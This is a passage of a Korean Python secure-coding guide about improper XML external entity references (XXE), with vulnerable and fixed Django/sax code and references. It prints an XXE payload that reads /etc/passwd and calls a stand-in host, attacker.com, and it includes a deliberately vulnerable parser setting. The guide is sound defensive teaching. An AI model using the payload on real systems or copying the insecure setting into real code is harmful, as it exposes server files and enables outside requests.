



# 8. 부적절한 XML 외부 개체 참조

> 변환 안내(원문 외): 아래 본문은 PDF 텍스트를 추출한 전사입니다. 코드 줄번호·특수 공백·원문 오류를 유지했습니다. 실행용 코드가 아닙니다. 표·그림·들여쓰기는 연결된 페이지 이미지와 대조하세요. 페이지 경계의 줄바꿈을 보존하며, 동일 페이지가 여러 항목에 나뉘면 각 항목의 본문은 해당 구간만 포함합니다.

### PDF 45페이지 / 인쇄 39페이지

<!-- source-page:Python-2023:45; source-lines:0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19 -->

PART 제2장 시큐어코딩 가이드 ❘ 제1절 입력데이터 검증 및 표현

39

#### 8. 부적절한 XML 외부 개체 참조

#### 가. 개요

XML 문서에는 DTD(Document Type Definition)를 포함할 수 있으며 DTD는 XML 엔티티(entitiy)를 
정의한다. 부적절한 XML 외부개체 참조 보안약점은 서버에서 XML 외부 엔티티를 처리할 수 있도록 설정된 
경우에 발생할 수 있다.

취약한 XML parser가 외부값을 참조하는 XML을 처리할 때 공격자가 삽입한 공격 구문이 동작되어 서버 
파일 접근, 불필요한 자원 사용, 인증 우회, 정보 노출 등이 발생할 수 있다.

파이썬에서는 간단한 XML 데이터 구문 분석 및 조작에 사용할 수 있는 기본 XML 파서가 제공된다. 이 파서는 
유효성 검사와 같은 고급 XML 기능은 지원하지 않는다. 기본으로 제공되는 XML 파서는 외부 엔티티를 지원
하지 않지만 다른 유형의 XML 공격에 취약할 수 있다. 기본으로 제공되는 파서의 기능 외에 더 많은 기능이 
필요한 경우에 lxml과 같은 라이브러리를 사용하게 되는데, 이 라이브러리에서는 기본적으로 외부 엔티티의 
구문 분석이 활성화 되어 있다.

#### 나. 안전한 코딩기법

로컬 정적 DTD를 사용하도록 설정하고 외부에서 전송된 XML 문서에 포함된 DTD를 완전하게 비활성화해야 
한다. 비활성화를 할 수 없는 경우에는 외부 엔티티 및 외부 문서 유형 선언을 각 파서에 맞는 고유한 방식으로 
비활성화 한다. 

외부 라이브러리를 사용할 경우 기본적으로 외부 엔티티에 대한 구문 분석 기능을 제공하는지 확인하고 제공이 
되는 경우 해당 기능을 비활성화 할 수 있는 방법을 확인해 외부 엔티티 구문 분석 기능을 비활성화 한다.

<details><summary>원본 페이지 이미지 (변환 외 보존 자료)</summary>



</details>

### PDF 46페이지 / 인쇄 40페이지

<!-- source-page:Python-2023:46; source-lines:0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59 -->

Python 시큐어코딩 가이드

40

많이 사용하는 XML 파서의 한 종류인 lxml의 경우 외부 엔티티 구문 분석 옵션인 resolve_entities 옵션을 
비활성화 해야 한다. 또한 외부 문서 조회 시 네트워크 액세스를 방지하는 no_network 옵션이 활성화(True) 
되어 있는지도 확인해야 한다.

#### 다. 코드예제

다음 예제는 XML 소스를 읽어와 분석하는 코드다. 공격자는 아래와 같이 XML 외부 엔티티를 참조하는 
xxe.xml 데이터를 전송하고 이를 파싱할 때 /etc/passwd 파일을 참조할 수 있다.

&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE foo [
    &lt;!ELEMENT foo ANY &gt;
    &lt;!ENTITY xxe1 SYSTEM "file:///etc/passwd" &gt;
    &lt;!ENTITY xxe2 SYSTEM "http://attacker.com/text.txt"&gt;
]&gt;
&lt;foo&gt;&amp;xxe1;&amp;xxe2;&lt;/foo&gt;

#### 안전하지 않은 코드 예시

```python
1: from xml.sax import make_parser
2: from xml.sax.handler import feature_external_ges
3: from xml.dom.pulldom import parseString, START_ELEMENT
4: from django.shortcuts import render
5: from .model import comments
6:
7: def get_xml(request):
8:   if request.method == “GET”:
9:     data = comments.objects.all()
10:     com = data[0].comment
11:     return render(request, '/xml_view.html', {'com':com})
12:
13:   elif request.method == “POST”:
14:     parser = make_parser()
15:     # 외부 일반 엔티티를 포함하는 설정을 True로 적용할 경우 취약하다
16:     parser.setFeature(feature_external_ges, True)
17:     doc = parseString(request.body.decode(‘utf-8’), parser=parser)
18:     for event, node in doc:
19:       if event == START_ELEMENT and node.tagName == “foo”:
20:         doc.expandNode(node)
21:         text = node.toxml()
22:         comments.objects.filter(id=1).update(comment=text)
23:     return render(request, '/xml_view.html')
```

<details><summary>원본 페이지 이미지 (변환 외 보존 자료)</summary>



</details>

### PDF 47페이지 / 인쇄 41페이지

<!-- source-page:Python-2023:47; source-lines:0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59 -->

PART 제2장 시큐어코딩 가이드 ❘ 제1절 입력데이터 검증 및 표현

41

만약 sax 패키지를 사용해 XML을 파싱할 경우 외부 엔티티를 처리하는 방식의 옵션(feature_external_ges)을 
False로 설정해야 한다.

#### 안전한 코드 예시

```python
1: from xml.sax import make_parser
2: from xml.sax.handler import feature_external_ges
3: from xml.dom.pulldom import parseString, START_ELEMENT
4: from django.shortcuts import render
5: from .model import comments
6:
7: def get_xml(request):
8:     if request.method == “GET”:
9:       data = comments.objects.all()
10:       com = data[0].comment
11:       return render(request, '/xml_view.html', {'com':com})
12:
13:     elif request.method == “POST”:
14:       parser = make_parser()
15:       parser.setFeature(feature_external_ges, False)
16:       doc = parseString(request.body.decode(‘utf-8’), parser=parser)
17:       for event, node in doc:
18:         if event == START_ELEMENT and node.tagName == “foo”:
19:           doc.expandNode(node)
20:           text = node.toxml()
21:       comments.objects.filter(id=1).update(comment=text);
22:       return render(request, '/xml_view.html')
```

#### 라. 참고자료

① CWE-611: Improper Restriction of XML External Entity Reference, MITRE,

https://cwe.mitre.org/data/definitions/611.html
② XML External Entity (XXE) Processing, OWASP,

https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_ Processing
③ XML External Entity Prevention Cheat Sheet, OWASP,

https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
④ XML vulnerabilities, Python Software Foundation,

https://docs.python.org/3/library/xml.html#xml-vulnerabilities 
⑤ lxml API, lxml library,

https://lxml.de/api/lxml.etree.XMLParser-class.html
⑥ PyGoat, OWASP,

https://github.com/adeyosemanputra/pygoat

<details><summary>원본 페이지 이미지 (변환 외 보존 자료)</summary>



</details>

---

## 탐색 링크 (원문 외)

[통합 인덱스](../../../INDEX.md)

